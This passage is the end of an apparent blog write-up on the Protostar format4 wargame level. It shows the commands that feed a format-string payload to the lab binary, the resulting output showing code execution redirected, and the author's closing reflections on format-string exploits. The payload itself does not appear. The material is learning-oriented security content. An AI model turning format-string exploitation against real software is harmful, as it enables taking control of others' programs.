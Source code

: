 ~~~
$ python format4_payload.py > ./f4in
$ /opt/protostar/bin/format4 < ./f4in
                                                                                                                                                                 512                                                                                                                                                                                                      3086844960                                                                                                                      3221224244____
code execution redirected! you win
~~~

![yay]({{ site-url }}/assets/post_images/protostar_format_4_success.jpe)

* * * 

Now, coming to an end of this post - I think my understanding of
format-exploits are greatly improved. And it's a neat form of
exploitation, Now I'm heading into the heap-challenges.

Thanks for bearing with me.

